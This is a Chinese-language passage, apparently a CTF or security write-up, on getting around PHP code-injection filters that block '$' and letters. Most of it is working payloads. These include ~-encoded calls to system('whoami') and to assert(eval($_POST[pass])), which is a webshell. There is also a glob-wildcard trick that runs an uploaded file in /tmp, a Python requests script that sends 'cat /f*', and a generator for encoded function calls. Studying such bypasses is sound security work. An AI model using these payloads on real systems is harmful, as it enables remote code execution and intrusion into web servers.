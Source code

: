 **过滤了`$`**
在PHP7中，我们可以使用($a)()这种方法来执行命令
这里我使用call_user_func()来举例
```php
(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');
```
其中`~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c`是`"call_user_func"`，`~%8c%86%8c%8b%9a%92`是`"system"`，`~%88%97%90%9e%92%96`是`"whoami"`

PHP5中不再支持($a)()这种方法来调用函数
1. shell下可以利用.来执行任意脚本
2. Linux文件名支持用glob通配符代替

根据P神的文章，最后我们可以采用的Payload是:
```php
?><?=`. /???/????????[@-[]`;?>
`. /t*/*`
```
最后的`[@-[]`表示ASCII在`@`和`[`之间的字符，也就是大写字母，所以最后会执行的文件是tmp文件夹下结尾是大写字母的文件
![](https://www.leavesongs.com/media/attachment/2018/10/06/56de7887-0a22-4b06-9ccd-2951a4bdab4c.png)

脚本如下:
```python
import requests

url="http://127.0.0.1/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat /f*'}
response=requests.post(url,files=files)
html = response.text
print(html)
```

**PHP 中取反 (~) 的概念**
```php
<?php 
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "\n";
$c='(eval($_POST[pass]))';
$d=urlencode(~$c);
echo $d;
 ?>
```
![](https://img-blog.csdnimg.cn/20200410212200713.png)
利用：`?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%8F%9E%8C%8C%A2%D6%D6)`

网上的构造脚本：
```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');
$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 
fwrite(STDOUT,'[+]your command: ');
$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 
echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

